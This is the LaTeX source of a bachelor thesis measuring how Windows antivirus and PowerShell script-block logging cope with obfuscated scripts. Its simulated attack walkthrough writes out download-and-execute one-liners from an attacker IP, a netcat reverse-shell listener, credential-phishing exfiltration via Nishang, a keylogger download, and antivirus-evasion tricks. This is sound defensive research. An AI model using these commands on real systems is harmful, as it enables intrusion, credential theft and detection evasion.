
\documentclass{article}% use option title page to get the title on a page of its own.
\usepackage{blindtext}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{listings}
\graphicspath{ {./Images/} }
\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    filecolor=magenta,      
    urlcolor=cyan,
}
\title{Detecting Obfuscated Scripts and Power-Shell Commands in Windows.}
\date{2020\\ September}
\author{Zamir Amiri\\ Computer Science, University Groningen 
\\Bachelor thesis
\and F.F.M. Mohsen (supervisor)
\and Dimka Karastoyanova (supervisor)
}
\begin{document}
\maketitle
\section*{Abstract}
In this thesis, an attempt is made to measure the effectiveness of defence systems against obfuscated PowerShell attack scripts. First this thesis makes an attempt to inform the reader on the importance of the subject. After that a measurement is made of how anti virus (AV) programs react against obfuscated scripts that are non malicious. As the research moves further, the thesis will start to focus more on PowerShell logging, in particular PowerShell script-block logging. Script block logging is new feature added to the PowerShell logging tool that can be enabled on windows 8.1 or above. The script block logging feature makes use of recursive logging to log every script block that is executed. This allows the logging feature to deobfuscate scripts very effectively.This research also shows by example, how a standard system with default defence systems can be abused without triggering any alarms. During this simulated attack, it was perceived that while some obfuscated code would bypass AMSI and the AV, it was still logged by the script block logging tool. This finding allows for a new defence system designed around PowerShell logging. However during the research some vulnerabilities of PowerShell logging became apparent as well. Not only have there been many reports on how to disable the logging service, there are also some built in vulnerabilities on windows machines that can be exploited by an experienced attacker. It became apparent that while AV programs were not able to perform against fileless obfuscated scripts. Even with the help of AMSI, there were some ways to bypass the problem. There also many tutorials on the internet on how to bypass AMSI, which require more attention of the developers. With these findings the thesis is concluded.
\newpage
\tableofcontents
\newpage
\section{Introduction}
As society is becoming more and more automated with the help of computers, information security becomes more important. Currently more then thirty percent of the worlds economy is powered by computers. This is partly caused by the increase of web-services. Cybercriminals therefore have a large array of targets to attack, steal data from or extort. As a counter action another form of hacker was created, the [\hyperlink{1}{1}]white hat hacker. This group uses the same tools as the black-hat hackers ,cybercriminals, to find security holes and fix them. Since the rise of this group, we have been able to learn more about how cybercriminals go to work. The strategy of a hacker can in general be described by [\hyperlink{1}{1}]five phases:

\begin{enumerate}
  \item Reconnaissance
  \item Scanning and Enumeration
  \item Gaining Access
  \item Maintaining Access
  \item Covering Tracks
\end{enumerate}
\subsection{Reconnaissance}
In this phase the attacker will attempt to look for information on the target while keeping himself as hidden as possible. There are two types of reconnaissance: passive and active. In passive reconnaissance the attacker will try to keep himself away from the target as much as possible. The attacker will try to validate the attacker e.g. position, nslookup and dnsrecon. The attacker will try to use third party apps to find more information on the target. This can vary greatly between apps such as Facebook and google. In the active phase the hacker will access the target directly and use tools such as nmap. The main idea of this phase is to gain as much information as possible to then decide whether the target might be worth attacking.
\subsection{Scanning and Enumeration}
Once the attacker has chosen the target, the second phase will start. In this phase the attacker will try to find more information, which could help the attacker to gain access. This phase can best be described by:
\begin{itemize}
	\item port scanning
	\item vulnerability scanning
	\item network mapping
\end{itemize}
Port scanning would let the attacker know in which way he could connect to the system, or which services are running on the target.
Vulnerability scanning is the search for information about software, like software version and known vulnerabilities for that version, that could help the attacker to use exploitation tools in order to gain access.
Network mapping would allow the attacker to map all the systems that are connected to each other, this would help the attacker to gain access to the main target by exploiting a vulnerability on another system that is connected to it.
\subsection{Gaining Access}
In this phase the information of phase one and two are used to break into the target. In general an attacker goes through multiple cycles the three phases.
\subsection{Maintaining Access}
Security vulnerabilities are patched constantly these days, which is why the attacker cannot assume that he will be able to gain access in a later time the same way he did the last time. This is why the attacker will create a program that will allow the attacker to connect to the system at any given time. This is in general done through files like Trojans. The attacker will also try to gain full control or the system, by using scripts that will exploit the system further. This phase is also called \textbf{post-exploitation}. The main goal at phase three is to gain root (admin) privilege on the targets system and build a way to comeback to the system if required.
\subsection{Clearing Track}
In this phase the attacker will try to delete any information that could indicate to the system admin that the system has been compromised. In general an attacker would remove all files used during the attack or changing log files which have documented the attack.

\subsection{Goal}
During the [\hyperlink{2}{2}]fourth phase of the attack, the attacker will try use many scripts in order to gain root access or steal valuable information. One tool that has been used lately on windows system to execute malware is [\hyperlink{12}{12}]PowerShell. PowerShell is a very powerful shell, that has been introduced in the recent years by Microsoft. The tool is very flexible and therefore has become one of the go-to programs for attackers. Antivirus software have been scanning for these types of scripts by looking for patters inside the script and unusual commands that are invoked by PowerShell. In order to bypass this security feature, attackers have started to use a technique called [\hyperlink{3}{3}]\textbf{obfuscation}. Obfuscation is a technique to make code less readable, for both humans and machines, while retaining it's original function. Obfuscation was first used by programmers to make reading code harder in order to create a new line of defence against hackers. [\hyperlink{o3}{o3}] Attackers have since seen the usefulness of obfuscation and have started to use it to bypass scanning tools. To help the fight against the evil hackers, Daniel Bohannon has created a tool called [\hyperlink{o1}{o1}]Invoke-Obfuscation which can be used by the blue team, in order to simulated what attackers do and find ways to fix the problem. This thesis will make use of the Invoke-Obfuscation tool to bypassing multiple Windows security systems. Additionally the thesis will atempt to find new forms of defence to strengthen the standard defence of windows machines.  The research questions that will be answered in this thesis are the following:
\begin{enumerate}
	\item[\textbf{main}]How well does Windows detect and defend itself against obfuscated PowerShell scripts?
	\item[\textbf{sub-questions}]
	\item Which obfuscation methods are labeled malicious by antivirus software, regardless of the content of the script.
	\item Is it possible to bypass antivirus software,in order to download malware, by obfuscating the download command in PowerShell?
	\item In what ways could the standard defence of a Windows machine be bypassed.
	\item What is the real performance of the PowerShell logging tool when large obfuscated attacking scripts are executed.
	\item What techniques can be used to bypass the logging of obfuscated commands.
	\item What additional defence systems can be deployed against obfuscated PowerShell scripts.
\end{enumerate}
This thesis will answer the sub questions in the upcoming section first and will answer the main question in the final conclusion of the document. During the start of this thesis, through experimentation, it became clear that the standard defence of windows machines in particular windows 8,10, server 2016 and server 2019 were very effective in detecting and removing obfuscated malware from the system. This initially gives the impression that the problem of detecting obfuscated attack scripts is solved. But this cannot be concluded so easily. Therefore the first few sub-questions are focused on finding the potential threat of obfuscated powershell attack scripts. However since it is not clear what the exact defence strategy is for each av software, a initial sub question is proposed which is:\newline
\hfill 
\textbf{Which obfuscation methods are labeled malicious by antivirus software, regardless of the content of the script}.
After answering the initial question, the thesis focuses on the application of abfuscation in other ways then obfuscating powershell malware. The questions that correspond to this are:\newline
\textbf{Is it possible to bypass antivirus software,in order to download malware, by obfuscating the download command in PowerShell?}\newline
With these questions, it will be shown that not all types of attacks are detected by the standard defence system. However some additional tools such as PowerShell logging seemed to be very promising. Therefore a closer look into PowerShell logging was required. To do this, the thesis will answer the question: \\
\textbf{What is the real performance of the PowerShell logging tool when large obfuscated attacking scripts are executed.}
In this section multiple different attacking scripts are performed on multiple machines. The result of these attacks can be found in the attachment along with some of the scripts used. After gaining this information, the thesis wil proceed with alaysing the defence systems that can be used in order to defend against an attack in the section:
\textbf{What additional defence systems can be deployed against obfuscated PowerShell scripts.}
\newline
\newline
\textbf{\textit{Note:}} It is important to note that since the thesis is mostly focused on scripts that might be used during post-exploitation's, that certain assumptions can be made before testing a certain script. An example of one assumption would be: "The attacker already has admin access to the system". Since the main goal is to measure windows' defence against obfuscated scripts, privileges like admin access or maintaining access can be assumed. For every script used in this thesis a small list of assumptions might be given before hand.

\section{Test-Environment}
All tests have been done on virtual machines, and one laptop. The malware downloaded on the victim machines were hosted by the attackers machine using:
\begin{verbatim}
python -m SimpleHTTPServer
\end{verbatim}
\subsection{Attackers machine}
The scripts were also obfuscated using the attackers machine. The specifications of the attacker machine are:\\
\\
\begin{verbatim}
System:    Kernel: 5.5.0-1parrot1-amd64 x86_64 bits: 64 compiler:
			gcc v: 9.3.0 Desktop: KDE Plasma 5.17.5 
           Distro: Parrot GNU/Linux 4.10 base: Debian parrot
Machine:   Type: Desktop Mobo: Micro-Star model: MS-B090 v: 1.1 
			serial: <filter> UEFI: American Megatrends v: 8.40 
           date: 01/20/2016 
CPU:       Info: Quad Core model: Intel Core i5-6400 bits: 64 type:
			MCP arch: Skylake-S rev: 3 L2 cache: 6144 KiB 
           flags: avx avx2 lm nx pae sse sse2 sse3 sse4_1 sse4_2 ssse3
            vmx bogomips: 21599 
           Speed: 800 MHz min/max: 800/3300 MHz Core speeds (MHz): 1: 
           832 2: 802 3: 1324 4: 806 
Graphics:  Device-1: Advanced Micro Devices [AMD/ATI] Ellesmere 
			[Radeon RX 470/480/570/570X/580/580X/590] 
           vendor: Micro-Star MSI driver: amdgpu v: kernel bus ID: 01:00.0
\end{verbatim}
The VMs used for this research were all run on this machine using Oracle VM VirtualBox Manager, all having the following specifications:
\begin{verbatim}
	Base Memory: 2048MB
	Processors: 1CPU
	Storage: 50GB
	Architecture: 64 bit
\end{verbatim}
\subsection{OS version}
The operating systems used were:
\begin{enumerate}
	\item Windows 10 (using windows defender)
	\item Windows 8.1 (using windows defender, AVG and McAfee)
	\item Windows 7 (using windows defender and AVG)
	\item Windows 2016 (using windows defender)
	\item Windows 2019 (using windows defender)
\end{enumerate}
\subsection{Victim machines}
A total of seven victim machines were used for this research. Further specifications of the machines can be found below.
\subsubsection{Victim 1}
\begin{verbatim}
Edition: Windows 10 Home
Version: 2004
OS build: 19041.508
Experience: Windows Feature Experience Pack 120.2212.31.0
===PowerShell===
PSversion: 5.1.19041.1
PSEdition: Desktop
BuildVersion: 10.0.19041.1
CLRVersion:	4.0.30319.42000
WSManStackVersion: 3.0
PSRemoteProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
===AV===
Windows Defender
Antimalware Client Version: 4.18.2009.7
Engine Version: 1.1.17500.4
Antivirus Version: 1.325.1580.0
Antispyware Version: 1.325.1580.0
\end{verbatim}
\subsubsection{Victim 2}
\begin{verbatim}
Edition: Windows 10 Home
Version: 2004
OS build: 19041.508
Experience: Windows Feature Experience Pack 120.2212.31.0
===PowerShell===
PSversion: 5.1.19041.1
PSEdition: Desktop
BuildVersion: 10.0.19041.1
CLRVersion:	4.0.30319.42000
WSManStackVersion: 3.0
PSRemoteProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
===AV===
AVG
Version: 20.8.3144
Build: 20.8.5653.561
Virus definitions version: 201012-0
\end{verbatim}
\subsubsection{Victim 3}
\begin{verbatim}
Edition: Windows 10 Home
Version: 2004
OS build: 19041.508
Experience: Windows Feature Experience Pack 120.2212.31.0
===PowerShell===
PSversion: 5.1.19041.1
PSEdition: Desktop
BuildVersion: 10.0.19041.1
CLRVersion:	4.0.30319.42000
WSManStackVersion: 3.0
PSRemoteProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
===AV===
McAfee
Version: 16.0
\end{verbatim}
\subsubsection{Victim 4}
\begin{verbatim}
Edition: Windows 8.1
Version: 6.3
OS build: 9600
===PowerShell===
PSversion: 4.0
BuildVersion: 10.0.19041.1
CLRVersion:	4.0.30319.42000
WSManStackVersion: 3.0
PSRemoteProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
===AV===
Windows Defender
Antimalware Client Version: 4.18.2009.7
Engine Version: 1.1.17500.4
Antivirus Version: 1.325.1580.0
Antispyware Version: 1.325.1580.0
\end{verbatim}
\subsubsection{Victim 5}
\begin{verbatim}
Edition: Windows 7 Professional
Version: 6.1
OS build: 7601: Service pack 1
===AV===
AVG
Version: 20.8.3144
Build: 20.8.5653.561
Virus definitions version: 201012-0
\end{verbatim}
\subsubsection{Victim 6}
\begin{verbatim}
Edition: Windows Server 2019
Version: 1809
OS build: 17763.1457
\end{verbatim}
\subsubsection{Victim 7}
\begin{verbatim}
Edition: Windows Server 2016
Version: 10.0.14393
OS build: 14393
\end{verbatim}
\subsection{Invoke-Obfuscation}
The tool used to obfuscate the scripts used is [\hyperlink{o1}{o1}] Invoke-Obfuscation created by Daniel Bohannon. The following description holds for \textbf{version 1.8}.
\subsubsection{Usage}
A short tutorial on how to use Invoke-Obfuscation can be found by typing \textbf{TUTORIAL} in the terminal. In this tutorial one can learn how to load scripts, obfuscate it and write it to a new file. There are [\hyperlink{o2}{o2}]multiple obfuscation techniques that can be used. These options are:
\begin{itemize}
	\item Token
	\begin{enumerate}
		\item \textbf{STRING}        
		\\Obfuscate String tokens (suggested to run first)
		\item \textbf{COMMAND}       
		\\Obfuscate Command tokens
		\item \textbf{ARGUMENT}      
		\\Obfuscate Argument tokens
		\item \textbf{MEMBER}        
		\\Obfuscate Member tokens
		\item \textbf{VARIABLE}      
		\\Obfuscate Variable tokens
		\item \textbf{TYPE}          
		\\Obfuscate Type tokens
		\item \textbf{COMMENT}       
		\\Remove all Comment tokens
		\item \textbf{WHITESPACE}    
		\\Insert random Whitespace (suggested to run last)
		\item \textbf{ALL}           
		\\Select All choices from above (random order)
	\end{enumerate}
	\item Ast
	\begin{enumerate}
		\item \textbf{NamedAttributeArgumentAst}  
			\\Obfuscate NamedAttributeArgumentAst nodes
		\item \textbf{ParamBlockAst}              
			\\Obfuscate ParamBlockAst nodes
		\item \textbf{ScriptBlockAst}             
			\\Obfuscate ScriptBlockAst nodes
		\item \textbf{AttributeAst}               
			\\Obfuscate AttributeAst nodes
		\item \textbf{BinaryExpressionAst}        
			\\Obfuscate BinaryExpressionAst nodes
		\item \textbf{HashtableAst}               
			\\Obfuscate HashtableAst nodes
		\item \textbf{CommandAst}                 
			\\Obfuscate CommandAst nodes
		\item \textbf{AssignmentStatementAst}     
			\\Obfuscate AssignmentStatementAst nodes
		\item \textbf{TypeExpressionAst}          
			\\Obfuscate TypeExpressionAst nodes
		\item \textbf{TypeConstraintAst}          
			\\Obfuscate TypeConstraintAst nodes
		\item \textbf{ALL}                        
			\\Select All choices from above

	\end{enumerate}
	\item String
	\begin{enumerate}
		\item Concatenate entire command
		\item Reorder entire command after concatenating
		\item Reverse entire command after concatenating
	\end{enumerate}
	\item Encoding
	\begin{enumerate}
		\item Encode entire command as ASCII
		\item Encode entire command as Hex
		\item Encode entire command as Octal
		\item Encode entire command as Binary
		\item Encrypt entire command as SecureString (AES)
		\item Encode entire command as BXOR
		\item Encode entire command as Special Characters
		\item Encode entire command as Whitespace
	\end{enumerate}
	\item Compress
	\begin{enumerate}
		\item Convert entire command to one-liner and compress
	\end{enumerate}
	\item Launcher
	\begin{enumerate}
		\item \textbf{PS} 			
		\\PowerShell
		\item \textbf{CMD}      	
		\\Cmd + PowerShell
		\item \textbf{WMIC}      	
		\\Wmic + PowerShell
		\item \textbf{RUNDLL}  		
		\\Rundll32 + PowerShell
		\item \textbf{VAR+}     	
		\\Cmd + set Var \&\& PowerShell iex Var
		\item \textbf{STDIN+}   	
		\\Cmd + Echo $|$ PowerShell - (stdin)
		\item \textbf{CLIP+}     	
		\\Cmd + Echo $|$ Clip \&\& PowerShell iex clipboard
		\item \textbf{VAR++}    	
		\\Cmd + set Var \&\& Cmd \&\& PowerShell iex Var
		\item \textbf{STDIN++}   	
		\\Cmd + set Var \&\& Cmd Echo $|$ PowerShell - (stdin)
		\item \textbf{CLIP++}    	
		\\Cmd + Echo $|$ Clip \&\& Cmd \&\& PowerShell iex clipboard
		\item \textbf{RUNDLL++}		
		\\Cmd + set Var \&\& Rundll32 \&\& PowerShell iex Var
		\item \textbf{MSHTA++}   	
		\\Cmd + set Var \&\& Mshta \&\& PowerShell iex Var
	\end{enumerate}
\end{itemize}
This thesis will make use of these terms when refering to an obfuscation technique used on a script.

\section{Sub-questions}
\subsection{Which obfuscation methods are labeled malicious by antivirus software, regardless of the content of the script}
[\hyperlink{o2}{o2}]It is well known that the [\hyperlink{8}{8}]Microsoft team already knows about the issues of obfuscated code. Therefore it can be assumed that some protection measures against obfuscation of code has already taken place by both [\hyperlink{4}{4}] windows tools such as windows-defender but also third party antivirus software. This became more apparent at the start of this project, when some non malicious code was labeled as malicious by windows defender and other antivirus programs. This created a new sub-questions that had to be answered first before any other question could be answered. Namely which obfuscated techniques are automatically considered to be malware by a system, regardless of the actual function of the code. To find the answer for this question a simple \hyperlink{script1}{script} has been executed with different obfuscation techniques using Invoke-Obfuscation. The results can be found in the table 1. The table has four columns with the necessary information required in order to reproduce the results, that is:
\begin{enumerate}
	\item[]\textbf{Obfuscation:} The commands used to obfuscate the script using Invoke-Obfuscation.
	\item[]\textbf{OS:} The OS that the code was run on.
	\item[]\textbf{Program:} The antivirus program that is currently on the system.
	\item[]\textbf{Detected:} A boolean value indicating the detection and labeling of the script as malicious.
\end{enumerate}
The command used to download and execute the scripts was:
\begin{verbatim}
Invoke-Expression (New-Object Net.WebCLient)
    .DownloadString("url\script.ps1");
\end{verbatim}
When looking at the result, table 1,2,3,4 and 5. It becomes apparent that the defence programs are not working well. The best detection rate can be found for McAfee on Windows 10, which labels every obfuscated script as malicious. This is because, [\hyperlink{o4}{o4}]McAfee, as it's line of defence against fileless scripting, is blocking any PowerShell command that uses \textit{Invoke-Expression} with the \textit{Downloadstring} function. However this can be easily bypassed by downloading the script first, \textbf{Invoke-WebRequest}, and then executing it. In that case McAfee does not block the execution of any script. But to execute scripts which were first downloaded, one would first need to change the ExecutionPolicy of the system to 'Bypass' or create a .bat file that executes the .ps1 file with the \textit{ExecutionPolicy} flag set to \textit{Bypass}. On the other hand windows defender had a more stable result, meaning it can find some of the obfuscated scripts regardless of what command was used to download it. Some versions of windows are not compatible with some encoding types, resulting in an error output. This is indicated in the table with the string 'ERROR'. Furthermore Windows servers were incompatible with avg and McAfee and therefore have a shorter table. In case of Windows 7, it was not possible to install McAfee.
\subsubsection{Conclusion}
It is not possible to conclude yet whether the antivirus software is effective. That is because there are two scenarios that have to be considered. First the code is scanned by the antivirus software and concluded that 'Write-Host "Hello World!" -f red' is not a malicious command. second the obfuscated code was unreadable by the program. However the information gathered from this test suggests that some types of obfuscation are considered to be viruses by some antivirus software regardless of the actual content. This would mean that these forms of obfuscation should in general be avoided when obfuscating a script for a distinct operating system. Hover multiple attempts of obfuscation and execution shows that all types of obfuscation can lead to an AV labeling the script as malicious. This means that trial and error method needs to be used in order to find which form of obfuscation works best for each script. It also makes sense that Windows defender has the most consistent results, since [\hyperlink{o2}{o2}]Lee Holmes (Lead security architect of Microsoft), has been working together with Daniel Bohannon on this problem.

\subsection{Is it possible to bypass antivirus software,in order to download malware, by obfuscating the download command in PowerShell?"}
This question comes forth when looking at how McAfee is blocking the \textbf{Invoke-Expression} when used together with the \textit{Downloadstring} function. To test this the malware called Get-Keystrokes from [\hypertarget{8}{8}]PowerSploit was used. This script file is immediately seen as a virus by Win Defender, AVG and McAfee. The commands used in order to download the scripts were:\\
\begin{verbatim}
Invoke-WebRequest "http://IPAddress:Port/Get-Keystrokes.ps1" 
      -o "Get-Keystrokes.ps1"
wget "http://IPAddress:Port/Get-Keystrokes.ps1" -o 
    "Get-Keystrokes.ps1"
curl "http://IPAddress:Port/Get-Keystrokes.ps1" -o
    "Get-Keystrokes.ps1"
\end{verbatim}
Many different iterations of the obfuscation tools were used, with the focus on [\hyperlink{o1}{o1}]Token,AST,String and Encoding. The answer was very clear, all antivirus programs were able to detect the malware before it got downloaded and blocked it one hundred percent of the time. On the other hand, when \textbf{secure-string} encoding is used, the script could be easily downloaded without notifying any AV program.
\subsubsection{Conclusion}
It does not seem to be possible to obfuscate the download command in order to download malware that otherwise would have been blocked. However it is fairly simple to get malware on the system by encoding the malware itself. This could be a problem when it comes to other types of malware.
\subsection{In what ways could the standard defence of a Windows machine be bypassed.}
In this section, a sub-question will be answered that will aid with answering the upcoming sub-question: "What additional defence systems can be deployed against obfuscated PowerShell scripts". In order to answer this question, in this section a real world attack will be simulated. Therefore this section will be written from the perspective of the attacker. The results of the attack process will then afterwards be discussed from a defenders point of view.

\subsubsection{Test Environment}
In this subsection a short description of the environment will be given for reproducibility. A more detailed description can be found in chapter $2$.
\begin{enumerate}
	\item Victim machine: windows server 2019
	\item Attacker machine: Parrot OS
	\item Victim PowerShell: PowerShell version: 5
	\item Attack tools used:NetCat, nmap, python.
\end{enumerate}
The assumptions made in this scenario is that the attacker has the ability to deploy some form of remote code execution. This will be used in order to start the attack.
The properties of log file "Microsoft-Windows-PowerShell/Operational have been set as followed:
\begin{itemize}
	\item maximum size (default) 16.5mb
	\item Archive logging
\end{itemize}
The properties of log file "Windows PowerShell have been set as followed:
\begin{itemize}
	\item maximum size (default) 16.5mb
	\item Archive logging
\end{itemize}
Both log files were cleared before the attack and during the attack only one PowerShell process will be run in order to decrease unnecessary logging (noise).
\subsubsection{Attack}
\textbf{Step 1}\hypertarget{attack1}.\newline After gaining the ability to execute code from a remote location, the attacker will gain access through executing a reverse shell script on the victim machine. In this case the reverse shell script of section 3.4.4 was used. The executed code on the victims machine in this case is:
\begin{verbatim}
iex (new-object Net.WebClient).downloadString
("http://192.168.2.36:8000/revShell.txt");
\end{verbatim}
Inside revShell.txt the ip address and port number are changed to $192.168.2.36$ and $8888$ respectively. The command used in a terminal on the attackers machine is:
\begin{verbatim}
nc -l -p 8888
\end{verbatim}
After executing this script the attackers terminal gains access to a CMD terminal on the victim machine.\newline
After gaining access to the machine, an attacker will go back to phase 2 of the attack (Reconnaissance). In this phase the attacker will scan the computer for as much information as possible.\newline
\textbf{Step 2}\hypertarget{attack2}.\newline
First the attacker gains access to a PowerShell terminal by executing:
\begin{verbatim}
PowerShell.exe
\end{verbatim}
\textbf{Step 3}\hypertarget{attack3}.\newline
Afterwards the script Invoke-PortScan script is used by copy/pasting the content of the script in the reverse shell terminal.
\begin{verbatim}
Paste Invoke-Portscan.ps1
\end{verbatim}
\textbf{Step 4}\hypertarget{attack4}.\newline
To check if the code was executed correctly, the attacker used Get-Help:
\begin{verbatim}
Get-Help Invoke-Portscan
\end{verbatim}
\textbf{Step 5}\hypertarget{attack5}.\newline
Find victims ip:
\begin{verbatim}
ipconfig
\end{verbatim}
Output:
\begin{verbatim}
Connection-specific DNS Suffix  . : home
Link-local IPv6 Address . . . . . : fe80::522:314e:958c:fca5%3
IPv4 Address. . . . . . . . . . . : 10.0.2.15
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 10.0.2.2
\end{verbatim}
\textbf{Step 6}\hypertarget{attack6}.\newline
Using Invoke-PortScan to find all available machines in the network and all ports used by processes:
\begin{verbatim}
Invoke-PortScan -StartAddress 10.0.2.1 
      -EndAddress 10.0.2.254 -ResolveHost -ScanPort
\end{verbatim}
Output:
\begin{verbatim}
IPAddress HostName Ports
--------- -------- -----
10.0.2.2  10.0.2.2 {}   
10.0.2.3  10.0.2.3 {}   
10.0.2.4  10.0.2.4 {}   
10.0.2.15 WIN-H... {8...
\end{verbatim}
In this case there are no other machines in the network, therefore another scan is done just for the victim machine.\\
\textbf{Step 7}\hypertarget{attack7}.\hfill
\begin{verbatim}
Invoke-PortScan -StartAddress 10.0.2.15
    -EndAddress 10.0.2.15 -ResolveHost -ScanPort
\end{verbatim}
Output:
\begin{verbatim}
IPAddress HostName             Ports               
--------- --------             -----               
10.0.2.15 WIN-H8C7LGTI40B.home {80, 139, 445, 3389}
\end{verbatim}
After some further scanning, it becomes clear that these ports will not help the attacker any further.\\
\textbf{Step 8}\hypertarget{attack8}\hfill
\begin{verbatim}
iex (new-Object Net.WebClient).DownloadString(
    "http://192.168.2.36:8001/Check-VM.ps1");
\end{verbatim}
\textbf{Step 9}\hypertarget{attack9}\hfill
\begin{verbatim}
Check-VM
\end{verbatim}
Output
\begin{verbatim}
This is a Hyper-V machine.
This is a Virtual Box.
\end{verbatim}
\textbf{Step 10}\hypertarget{attack10}\hfill
\begin{verbatim}
iex (new-Object Net.WebClient).DownloadString(
    "http://192.168.2.36:8001/Get-Information.ps1")
Get-Information
\end{verbatim}
The output of this command is large and therefore is added as an \hyperlink{output1}{attachment}.
\textbf{Step 11}\hypertarget{attack11}\hfill
\begin{verbatim}
iex (new-Object Net.WebClient).DownloadString
("http://192.168.2.36:8001/Invoke-SSIDExfil.ps1")
\end{verbatim}
This script has a high chance of giving the attacker root privilege as can be read in the description.
\begin{verbatim}
Get-Help Invoke-SSIDExfil
\end{verbatim}
Output:
\begin{verbatim}
NAME
    Invoke-SSIDExfil
    
SYNOPSIS
    Nishang script which can exfiltrate information
    like user credentials, using WLAN SSID.
    
    
SYNTAX
    Invoke-SSIDExfil [[-StringToDecode] <String>]
    [[-StringToExfiltrate] <String>] [-ExfilOnly] [-Decode]
        [<CommonParameters>]
    
    
DESCRIPTION
    In the default operation (without any option), the script opens a
    prompt which asks for user credentials and does not go away till
    valid local or domain credentials are entered in the prompt.
\end{verbatim}
Although a system admin might not fall for this trick, many normal computer users will. This means that an attacker, when targeting a normal user, uses this scripts, then the chances of the attacker gaining root privilege is high.
After the victim used their password, the following information was given to the attacker.
\textit{Figure 3: Output Invoke-SSIDExfil}\\

\includegraphics[scale=0.48]{result.png}
\subsubsection{conclusion}
By using this SSID and Key the attacker can now advance towards gaining root privileges on the victim machine. This is also where the attack scenario given will end. It is worth noting once again that all the information that was extracted from the victims machine, was extracted while AV was turned on. This is probably the case because scanning tools do not modify any vital parameter in a machine and therefore seem much more harmless then malware even though the potential of scanning scripts can be much more dangerous then a ransomware script. Whit this, the sub-question of this section can be answered. While AV does a good job protect a users machine against malware, it fails to defend a user from reconnaissance scripts. Therefore hackers can make good use of the PowerShell built in commands to write sophisticated scanning scripts and gather valuable information that could aide the attacker in their next attack phases. A good example used here was \textbf{Get-Information}, which has given the attacker the name of the admin account along with all the software currently installed on the computer. The logging tool however does document the attack correctly. It even stores values such as the attackers ip, which can be very use full for the forensic analysis done after the attack.\newpage
\textit{Figure 4: Scriptblock logging log for reverse shell script}\\

\includegraphics[scale=0.40]{20.png}
To gain a log file with the least amount of noise possible, as in log entries that have nothing to do with the attack, a new script was created that executes step $1$ to step $10$. The script can be found as an attachment called \hyperlink{script3}{Invoke-SuperScript}. The log file was filtered with eventID $4104$. This presented the following result:
\newpage
\textit{Figure 5: ScriptBlockLogging log for Invoke-SuperScript.ps1 Unobfuscated}\\
